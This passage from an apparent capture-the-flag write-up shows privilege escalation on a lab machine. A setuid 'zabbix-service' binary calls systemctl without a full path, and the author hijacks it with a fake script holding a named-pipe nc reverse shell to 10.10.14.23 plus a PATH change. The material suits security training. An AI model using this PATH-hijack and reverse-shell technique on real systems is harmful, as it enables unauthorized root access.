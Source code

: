 The file seems to control one of the zabbix service:
```
zapper@zipper:~/utils$ ./zabbix-service
./zabbix-service
start or stop?: start
start
```

To see what it does, I used `ltrace` to check which functions are called:
```
zapper@zipper:~/utils$ ltrace -s 256 ./zabbix-service
ltrace -s 256 ./zabbix-service
__libc_start_main(0x45d6ed, 1, 0xbfb57f54, 0x45d840 <unfinished ...>
setuid(0)                                        = -1
setgid(0)                                        = -1
printf("start or stop?: ")                       = 16
fgets(start or stop?: start
start
"start\n", 10, 0xb7f345c0)                 = 0xbfb57e82
strcspn("start\n", "\n")                         = 5
strcmp("start", "start")                         = 0
system("systemctl daemon-reload && systemctl start zabbix-agent"Failed to reload daemon: The name org.freedesktop.PolicyKit1 was not provided by any .service files
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 256
+++ exited (status 0) +++
```

Based on the `ltrace` output, we see that the program executes `systemctl daemon-reload && systemctl start zabbix-agent` as user root.

Because the program doesn't execute systemctl using its full path, it is susceptible to hijacking by changing the PATH environment variable.

We can write a simple bash script that spawns a reverse shell using a named pipe and name it `systemctl`
```
zapper@zipper:~/utils$ cat systemctl
#!/bin/sh

rm /tmp/f2;mkfifo /tmp/f2;/bin/cat /tmp/f2|/bin/sh -i 2>&1|/bin/nc 10.10.14.23 5555 >/tmp/f2
zapper@zipper:~/utils$ chmod +x systemctl
chmod +x systemctl
```

**We need to use /bin/cat instead of just cat because we'll remove /bin from the PATH env variable**

Next, we remove `/bin` from the PATH and add `/home/zapper/utils`:
```
zapper@zipper:~/utils$ echo $PATH
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
zapper@zipper:~/utils$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/home/zapper/utils
<cal/bin:/usr/sbin:/usr/bin:/sbin:/home/zapper/utils
```
